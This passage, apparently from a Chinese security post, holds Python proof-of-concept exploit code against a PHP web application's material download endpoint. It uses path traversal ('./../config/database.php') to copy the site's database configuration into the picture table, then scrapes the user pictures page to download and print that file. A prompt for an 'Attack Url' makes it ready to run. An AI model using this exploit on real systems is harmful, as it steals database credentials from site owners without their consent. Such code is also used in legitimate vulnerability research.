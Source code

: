 ```
   upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
   headers = {
       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
  }
   data = {
       "1":1
  }
   try:
       response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
       if response.status_code == 200:
           print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
       else:
           print("\033[31m[x] 漏洞利用失败 \033[0m")
   except:
       print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_2(target_url):
   vnln_url = target_url + "/public/index.php/home/file/user_pics"
   headers = {
       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
  }
   try:
       response = requests.get(url=vnln_url, headers=headers).text
       href = re.findall(r'<img src="(.*?)"', response)
       for i in href:
           print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
           data = requests.get(url=i, headers=headers)
           path = str(random.randint(1,999)) + '.php'
           with open(path, 'wb') as f:
               f.write(data.content)
               print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
               print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
   except:
           print("\033[31m[x] 获取文件名失败 \033[0m")



if __name__ == '__main__':
   title()
   target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
   POC_1(target_url)
   image_url = POC_2(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzB1sCqP9wWUa2ibvdARr3H7ibtyFM3XoMw53zMIaVy26trWcwKjBSVmUiapj8NwEuvwm9baH6VOK3TeQ/640?wx_fmt=png)

  

**_扫描关注公众号回复加群_**
